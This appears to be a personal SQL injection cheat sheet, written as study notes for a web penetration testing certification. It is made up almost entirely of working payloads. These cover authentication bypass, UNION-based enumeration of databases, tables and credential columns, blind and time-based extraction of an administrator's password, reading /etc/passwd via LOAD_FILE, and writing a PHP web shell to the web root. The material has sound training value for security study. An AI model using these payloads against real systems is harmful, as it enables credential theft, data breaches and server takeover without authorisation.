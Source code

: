 # CBBH PATH
# SQL Injection Cheat Sheet

## Cheat Sheet Reference
[SQL Injection Cheat Sheet by PortSwigger](https://portswigger.net/web-security/sql-injection/cheat-sheet)

## Finding the Vulnerable Query
- Check the URL after parameters, e.g., `?Abdullah=Abdullah`.
- Test login fields for potential injection points.

## Fixing the Query (Comments)
- Use `--` or `#` for comments in SQL queries.

## Common Payloads
```sql
' or 1=1 --
'--
```

## String Concatenation
```sql
' UNION SELECT NULL, username || '*' || password FROM users--
```

## Determining the Number of Columns
Using `UNION`:
- Ensure the number and order of columns match in all queries.
- Data types must be compatible.
```sql
cn' UNION SELECT NULL, NULL, NULL-- -
cn' UNION SELECT NULL, NULL, NULL, NULL-- -
UNION SELECT NULL, NULL, NULL, NULL FROM Abdullah-- -
```
Using `ORDER BY`:
```sql
' ORDER BY 1-- -
```

## Finding a Column Containing Text (Data Type)
- An error indicates the column is not a string type.
- No error indicates the column is a string type.
```sql
cn' UNION SELECT NULL, 'Abdullah', NULL, NULL-- -
UNION SELECT username, NULL, NULL, 'Abdullah' FROM Abdullah-- -
```

## Database Enumeration
- Fingerprint MySQL:
```sql
SELECT @@version;
SELECT SLEEP(5);
```
- Current database name:
```sql
cn' UNION SELECT 1, database(), 2, 3-- -
```
- List all databases:
```sql
cn' UNION SELECT 1, schema_name, 3, 4 FROM INFORMATION_SCHEMA.SCHEMATA-- -
```
- List all tables in a specific database:
```sql
cn' UNION SELECT 1, TABLE_NAME, TABLE_SCHEMA, 4 FROM INFORMATION_SCHEMA.TABLES WHERE table_schema='dev'-- -
```
- List all columns in a specific table:
```sql
cn' UNION SELECT 1, COLUMN_NAME, TABLE_NAME, TABLE_SCHEMA FROM INFORMATION_SCHEMA.COLUMNS WHERE table_name='credentials'-- -
```
- Dump data from a table in another database:
```sql
cn' UNION SELECT 1, username, password, 4 FROM dev.credentials-- -
```

## Blind SQL Injection
### Finding Vulnerable Parameters (Conditional Responses)
- Look for identifiable responses from the web app, e.g., a welcome message.
- Test conditions:
```sql
' AND 1=1--  -- True query
' AND 1=0--  -- False query
```

### Confirm a Table Exists (Conditional Responses)
```sql
' AND (SELECT 'x' FROM users LIMIT 1)='x'--
```

### Confirm a Username Exists in a Table (Conditional Responses)
```sql
' AND (SELECT username FROM users WHERE username='administrator' LIMIT 1)='administrator'--
```

### Enumerating a Password (Conditional Responses)
1. Determine password length:
```sql
' AND (SELECT username FROM users WHERE username='administrator' AND LENGTH(password)>1)='administrator'--
```
2. Extract each character sequentially:
```sql
' AND (SELECT SUBSTRING(password,1,1) FROM users WHERE username='administrator')='a'--
```

### Time-Based Blind SQL Injection
- Introduce time delays:
```sql
' || (SELECT pg_sleep(10))--
```
- Confirm table existence:
```sql
' || (SELECT CASE WHEN (username='administrator') THEN pg_sleep(10) ELSE pg_sleep(0) END FROM users)--
```
- Determine password length:
```sql
' || (SELECT CASE WHEN (username='administrator' AND LENGTH(password)>1) THEN pg_sleep(10) ELSE pg_sleep(0) END FROM users)--
```
- Extract each character sequentially:
```sql
' || (SELECT CASE WHEN (username='administrator' AND SUBSTRING(password,1,1)='a') THEN pg_sleep(10) ELSE pg_sleep(0) END FROM users)--
```

## Privilege Escalation
- Find current user:
```sql
cn' UNION SELECT 1, user(), 3, 4-- -
```
- Check for admin privileges:
```sql
cn' UNION SELECT 1, super_priv, 3, 4 FROM mysql.user WHERE user="root"-- -
```
- Enumerate all user privileges:
```sql
cn' UNION SELECT 1, grantee, privilege_type, is_grantable FROM information_schema.user_privileges WHERE grantee="'root'@'localhost'"-- -
```
- Access directories via MySQL:
```sql
cn' UNION SELECT 1, variable_name, variable_value, 4 FROM information_schema.global_variables WHERE variable_name="secure_file_priv"-- -
```

## File Injection
- Read local file:
```sql
cn' UNION SELECT 1, LOAD_FILE("/etc/passwd"), 3, 4-- -
```
- Write to a local file:
```sql
SELECT 'file written successfully!' INTO OUTFILE '/var/www/html/proof.txt';
```
- Write a web shell:
```sql
cn' UNION SELECT "",'<?php system($_REQUEST[Abdullah]); ?>', "", "" INTO OUTFILE '/var/www/html/shell.php'-- -
```

